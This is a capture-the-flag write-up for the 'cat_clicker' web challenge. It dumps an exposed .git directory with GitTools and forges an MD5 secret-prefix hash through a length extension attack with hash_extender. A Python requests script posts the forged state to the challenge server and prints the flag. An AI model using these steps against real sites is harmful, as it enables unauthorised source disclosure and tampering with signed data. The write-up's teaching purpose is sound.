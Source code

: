# cat\_clicker (Web 474, 24 solves)

This is a tough web challenge that requires some crypto. The app is a clicker game. We need 13 cats to get the flag, but we can only obtain 12! Checking out the data sent to the server, our cat limit and count (collectively the state in form `{LIMITS} | {CATS}`) is verified with a hash.

## Getting the source
The first thing we need to do to progress is to discover the `/.git/` directory by chance or using DirBuster, which was probably the idea. After that we can clone the repository and extract commit data with [GitTools](https://github.com/internetwache/GitTools).

```sh
./gitdumper.sh http://challs.xmas.htsp.ro:3003/.git/ git
./extractor.sh git git
```

There's only one commit, signed with a fake email, but it contains the source code for the program! The hash is the MD5 of the combination of a secret 64 character values `$secret` and the in the form `$secret | $state`. In addition, the cat limit and count are parsed from the state by `explode()`ing on ` | `.

## Forging a hash
The secret is unknown to us, same with the flag -- they're taken from environment variables. Do we need to somehow crack a 64 character salted (with the state) MD5 hash?

Actually, since the secret is prepended and we have a known hash, we can perform a length extension attack! (hash\_extender)[https://github.com/iagox86/hash\_extender] looks like a great tool for this. A length extension attack relies on the fact that MD5 (and many other hashes) are iteractive over their blocksize and the result is a direct output of the internal state, so the hash of this intermediate state can be "extended".

We can use any hash, so let's just use the one in a new game. `{"state":"12 | 0","hash":"cf13ab76afb625f7f7d6c539c2cb3c84","success":true}`

```sh
git clone https://github.com/iagox86/hash_extender
cd hash_extender
make 
./hash_extender -d " | 12 | 0" -l 64 -s cf13ab76afb625f7f7d6c539c2cb3c84 -a " | 13" -f md5
```

The program gives us a new signature and state:
```
Type: md5
Secret length: 64
New signature: c28217c17f102d42d1b4a0ab33ec10a3
New string: 207c203132207c203080000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004802000000000000207c203133
```

The returned string has inserted some null bytes and garbage inbetween our append target and the original string. This is because the original string has to be treated as if it was padded.

Note that we have to remove the ` | ` at the beginning of the string, since the server will prepend this to our input. Now that we have a valid hash for 13 cats, we can just feed this into a request and get the flag!

```python
import requests

state = bytes.fromhex("3132207c203080000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004802000000000000207c203133")
print("New state:", state)
hh = "c28217c17f102d42d1b4a0ab33ec10a3"
x = requests.post('http://challs.xmas.htsp.ro:3003/api/buy.php', data={'state': state, 'hash': hh, 'item_id': 2})

print("Flag:", x.json()['item'])
# Flag: X-MAS{1_h4v3_s0_m4ny_c4t5_th4t_my_h0m3_c4n_b3_c0ns1d3r3d_4_c4t_sh3lt3r_aaf30fcb4319effa}
```

Note that even if the secret wasn't aligned to the blocksize and we didn't know the corresponding state the length attack would still work! We could have guessed the length too, trying each length until the server accepted our request.

```
./hash_extender -l 73 -s cf13ab76afb625f7f7d6c539c2cb3c84 -a " | 13" -f md5 -d ""
Type: md5
Secret length: 73
New signature: c28217c17f102d42d1b4a0ab33ec10a3
New string: 80000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004802000000000000207c203133

```
